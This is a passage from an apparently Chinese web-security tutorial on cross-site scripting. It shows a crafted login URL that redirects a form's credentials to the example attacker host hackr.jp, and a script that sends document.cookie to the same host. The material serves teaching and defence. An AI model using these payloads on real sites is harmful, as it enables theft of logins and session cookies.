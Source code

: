 浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。 

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。 

http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s=" 对请求时对应的HTML源代码

> &lt;div&gt;  
> &lt;div class=&quot;logo&quot;&gt;   
> 	&lt;img src=&quot;/img/logo.gif&quot; alt=&quot;E! 拍卖会 /&gt;  
> &lt;/div&gt;  
> &lt;form action=&quot;http://example.jp/login&quot; method=&quot;post&quot; id=&quot;login&quot;&gt;  
> 	&lt;div class=&quot;input_id&quot;&gt;  
> 		ID  
> 		&lt;input type=&quot;text&quot; name=&quot;ID&quot; value=&quot;&quot;&gt;&lt;script&gt;var f=document.getElementById(&quot;login&quot;);    f.action=&quot;http://hackr.jp/pwget&quot;; f.method=&quot;get&quot;;&lt;/script&gt;&lt;span s=&quot; /&gt;  
> 	&lt;/div&gt;  
> &lt;/form&gt;  
> &lt;/div>    

- ###### 对用户 **Cookie** 的窃取攻击 

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。 

> <script src=http://hackr.jp/xss.js></script> 

该脚本内指定的 http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。 

> var content = escape(document.cookie);
>
> document.write("<img src=http://hackr.jp/?");
>
> document.write(content);
>
> document.write(">"); 

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段 JavaScript 程序，即可访问到该 Web 应用所处域名下的 Cookie 信息。然 后这些信息会发送至攻击者的 Web 网站（http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的 Cookie 信息了。

![1565753091067](images/1565753091067.png)
